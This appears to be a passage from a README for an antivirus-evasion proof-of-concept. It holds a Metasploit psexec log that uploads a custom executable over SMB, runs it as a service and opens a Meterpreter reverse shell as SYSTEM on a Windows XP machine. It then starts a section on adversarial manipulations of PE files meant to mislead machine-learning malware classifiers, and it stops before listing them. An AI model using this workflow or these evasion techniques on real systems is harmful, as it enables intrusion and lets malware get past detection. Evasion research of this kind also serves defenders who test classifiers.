```
[*] 192.168.116.183:445 - Selecting native target
[*] 192.168.116.183:445 - Uploading payload...
[*] 192.168.116.183:445 - Using custom payload /root/tools/avepoc/a.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.116.183:445 - Created \mzrCIOVg.exe...
[+] 192.168.116.183:445 - Service started successfully...
[*] 192.168.116.183:445 - Deleting \mzrCIOVg.exe...
[-] 192.168.116.183:445 - Delete of \mzrCIOVg.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Exploit completed, but no session was created.
msf exploit(psexec) > [*] Meterpreter session 4 opened (192.168.116.142:33453 -> 192.168.116.183:8443) at 2017-05-27 18:47:23 +0200

msf exploit(psexec) > sessions

Active sessions
===============

Id Type Information Connection
-- ---- ----------- ----------
4 meterpreter x86/windows NT-AUTORIT_T\SYSTEM @ DAX-RYMZ48Z3EYO 192.168.116.142:33453 -> 192.168.116.183:8443 (192.168.116.183)

msf exploit(psexec) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer : DAX-RYMZ48Z3EYO
OS : Windows XP (Build 2600, Service Pack 3).
Architecture : x86
System Language : de_DE
Domain : ARBEITSGRUPPE
Logged On Users : 2
Meterpreter : x86/windows
```
## Adversarial Examples
Adversarial examples are specifically crafted inputs with the purpose of leading machine learning models to misclassification.

To use this method, please create a virtual environment and install the needed dependencies from `requirements.txt`.

### Practical Manipulations
Five functionality-preserving manipulations for PE files are available:
